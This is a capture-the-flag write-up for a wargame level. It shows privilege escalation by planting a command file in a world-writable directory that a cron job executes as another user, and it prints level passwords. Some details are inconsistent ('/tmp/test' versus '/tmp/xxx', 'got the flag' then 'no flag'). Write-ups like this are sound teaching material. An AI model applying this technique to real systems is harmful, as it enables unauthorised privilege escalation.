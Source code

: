 # Solve Level05
pass : ne2searoevaevoem4ov4ar8ap


### Description
- ```(find / -user level05 -type f 2>/dev/null) | grep -v proc``` ==> only file : '/usr/sbin/openarenaserver'
- when we connect we have a message "You have a new mail."
  - on linux mails are in /var/mail/user
  - other way to find the mail ```(find / -type f -iname level* 2>/dev/null) | grep -v rof``` help to find `var/mail/level05`


### diggin on /var/mail/level05
- only this : `*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05`
    - first part is a cron pattern telling "At every 2nd minute run su" ```man cron``` [crontab][fd1] [advices][fd2]
    - the cron calls openarenaserver as flag05

### /usr/sbin/openarenaserver
`-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver`
  - he execute each file in the folder `/opt/openarenaserver` with ```bash -x #x is tracing mode``` then remove the file
  - maybe we can put a file to execute in /opt/openarenaserver (the folder is set 777)


## Solution
- ```echo "getflag > /tmp/test" > /opt/openarenaserver/test```
- wait for cron job execution (2 minutes max)
- ```cat /tmp/xxx``` ==> got the flag

no flag

level06 : viuaaale9huek52boumoomioc


## Resolve problem
- be aware about cron job and all rights they can give ==> don't give write and execute to everybody

[fd1]: https://crontab.guru/crontab.5.html
[fd2]: https://serverfault.com/questions/449651/why-is-my-crontab-not-working-and-how-can-i-troubleshoot-it